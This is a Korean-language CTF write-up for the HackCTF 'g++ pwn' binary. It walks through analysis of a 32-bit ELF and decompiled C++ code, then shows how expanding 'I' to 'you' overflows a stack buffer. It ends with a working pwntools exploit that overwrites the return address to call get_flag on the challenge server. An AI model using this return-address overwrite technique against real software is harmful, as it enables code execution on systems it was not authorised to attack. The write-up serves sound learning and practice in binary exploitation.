**HackCTF - g++ pwn**

| layout | title                         | auther   | categories | tags           |
| ------ | ----------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - RTL_World | Y3oj4eng | writeup    | writeupwargame |

# Analysis
`file` 명령어를 이용해 해당 바이너리의 정보를 획득한다.
```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file gpwn 
gpwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=4b1df4d30f1d6b75666c64bed078473a4ad8e799, not stripped
```
`ELF 32bit` 바이너리, `not-stripped`등을 확인한다.

`checksec` 명령어를 이용해 해당 바이너리에 적용된 보호기법을 확인한다.
```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec gpwn
[*] '/home/mac/Desktop/hackCTF/gpwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
`NX` 보호기법이 적용되었다, 따라서 힙, 스택, 데이터 영역에 실행권한을 갖지 못한다.

프로그램을 실행시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./gpwn 
Tell me something about yourself: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
So, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
프로그램을 실행시키면 `Tell me something about yourself:` 문자열을 출력한뒤 사용자로부터 값을 입력받은 후 해당 값을 출력한다.

본격적으로 `IDA`를 통해 분석을 진행한다.
![image](https://user-images.githubusercontent.com/33051018/76155864-a35a8180-6135-11ea-9967-6ab8af67ce36.png)
`main`함수는 정말 너무 간단했다.
함수 내부에서 `vuln`이라는 함수를 호출한 이후 프로그램을 종료한다.

`vuln`함수를 살펴보자.

```cpp
int vuln()
{
  int v0; // ST08_4
  const char *v1; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v4; // [esp+3Ch] [ebp-1Ch]
  char v5; // [esp+40h] [ebp-18h]
  char v6; // [esp+47h] [ebp-11h]
  char v7; // [esp+48h] [ebp-10h]
  char v8; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator((int)&v6);
  std::string::string(&v5, "you", &v6);
  std::allocator<char>::allocator((int)&v8);
  std::string::string(&v7, "I", &v8);
  replace((std::string *)&v4, (std::string *)&input, (std::string *)&v7);
  std::string::operator=(&input, &v4, v0, &v5);
  std::string::~string((std::string *)&v4);
  std::string::~string((std::string *)&v7);
  std::allocator<char>::~allocator(&v8);
  std::string::~string((std::string *)&v5);
  std::allocator<char>::~allocator(&v6);
  v1 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v1);
  return printf("So, %s\n", &s);
}
}
```
해당 바이너리는 문제의 제목에서 유추가 가능하듯, 예상대로 `cpp`언어로 작성된것을 확인할 수 있다.

`vuln`함수는 위와 같다.

눈에 띄는 함수는 `fgets` , `replace`, `strcpy`가 있으며 `fgets`함수부터 살펴보도록 한다.

`fgets`함수는 32bytes를 s에 입력받는다. 하지만 `s`는 `SFP`까지 총 0x3c + 4bytes = 64bytes가 필요하다. 따라서 `fgets` 함수를 이용한 일반적인 BOF는 불가능할 것 으로 보인다.

다음으로 `replace`함수를 살펴본다.
`replace` 함수는 들어온 입력값 중 `I`값을 `you`로 치환한다.

따라서, `I` 20개를 입력하면 프로그램 내에서는 총 `you` 20개, 즉 60bytes의 입력으로 처리한다.

이를 이용하여 `ret`까지의 접근은 가능해졌다.

이제 `return address`를 무엇으로 `overwrite`할지 찾아야한다.

![image](https://user-images.githubusercontent.com/33051018/76156590-d3a71d80-613f-11ea-9511-f71b5a6bf598.png)

바이너리 내 함수목록을 살펴보던중 요상한 이름의 함수를 찾을수 있었으며 함수 내부는 아래와같다.

```c
int get_flag()
{
  return system("cat flag.txt");
}
```

이제 익스를 위한 준비는 모두 끝났다.

페이로드를 작성해보도록 한다.

`payload : 'I' * 21 + 'A' + &get_flag`

# Exploit

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3011)

get_flag = 0x8048f0d

payload = 'I'*21
payload += 'A'
payload += p32(get_flag)

p.sendline(payload)
p.interactive()
```
